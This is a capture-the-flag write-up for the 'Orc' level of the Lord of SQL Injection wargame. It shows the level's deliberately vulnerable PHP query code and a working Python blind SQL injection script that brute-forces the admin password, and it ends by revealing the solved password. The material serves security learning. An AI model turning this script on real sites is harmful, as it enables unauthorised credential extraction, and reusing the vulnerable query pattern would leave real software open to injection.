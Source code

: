 # Lord Of SQL Injection

### Orc

[Orc chall link](https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php)

Source code of this chall:

```php    
    	<?php 
  	  include "./config.php"; 
	  login_chk(); 
	  dbconnect(); 
	  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
	  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if($result['id']) echo "<h2>Hello admin</h2>"; 
	  $_GET[pw] = addslashes($_GET[pw]); 
	  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
	  highlight_file(__FILE__); 
	?>	
```

In this chall, your object is to find the password because i already used many commnand like `' or 1=1 -- ;` and get no response :( . After many times trying, i try Blind SQL Injection and get the thing i want. You will bruteforce to find every character of the password.


You can devide this chall into 2 phase:
1. Find the length of the password
2. Find every character of the password

This is my code to solve this problem:
```python
    	import requests
	import string

	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
	my_cookies = {"PHPSESSID":"your PHPSESSID here"}
	passwd = ""
	passwdlen = 0
	for i in range(0,10):
	    print("Checking if the password length is " + str(i))
	    payload = "' or id='admin' and length(pw)=" + str(i) + " -- ;"
	    payload = requests.utils.quote(payload)
	    final_url = url + payload
	    res = requests.get(final_url,cookies=my_cookies)
	    if "Hello admin" in res.text:
		print("FOUND! Password length is " + str(i))
		print("-------------------------------------------------")
		passwdlen = i
		break
	    else:
		print("FAIL!")
		print("-------------------------------------------------")



	for i in range(1,passwdlen+1):
	    for c in string.digits + string.ascii_lowercase:
		payload = "'or id='admin' and substr(pw,"+str(i)+",1)='" +c+ "' -- ;"
		payload = requests.utils.quote(payload)
		final_url = url + payload
		res = requests.get(final_url,cookies=my_cookies)
		if "Hello admin" in res.text:
		    passwd+=c
		    print(final_url)
		    print("Found a new char of password: " + passwd)
		    break
	print("The password is: " + passwd)
 ```

The two library which i used in this code is requests library and string library. The requests library is used to send data to the server, and the string library to get all the digit and lowercase letter as string for the second loop. Maybe you don't understand why i didn't use the uppercase letter or why the range of the first loop is 0->10, that's a secret :) You will know that secret after you solved this chall :D

In the first for loop, i find the password length. After that, i use the password's length i had found before as an end of range for the second for loop. And also, in this chall you must use you cookies to pass into the header of the request you make. If you didn't do that, this code will fall because the server will redirect you to the login page :<

I will explain two payload i used in this chall:

1. The first loop payload

```python
    	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and length(pw)=" + str(i) + " -- ;"
```

I find the password by using a single quote to end the query which already open in the query of the program. Then i find the length of the `pw` parameter by loop through a range from 0 to 10. If the length of the `pw` is correct, the line "Hello admin" will appear. You can rely on that line to bruteforce the length of the password. And please remember that after ` --` is a space and a ";" symbol. Because in MySQL, after a comment you must leave a space, but if you leave only the space with no character after that space, the space will be cut off automatically so i choose a ";" symbol, you can choose whatever you want, just make sure the space after the comment exist.

2. The second loop payload

```python
	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and substr(pw,"+ str(i) +",1)='" +c+ "' -- ;"
```

In the second loop, i find every character of the password using bruteforce again. The substr() function will extract a substring from a string, in this case is the passwd. You can read about the substr() function on the internet to know more about how it work. 

And after two loop, you can find the password is 095a9852
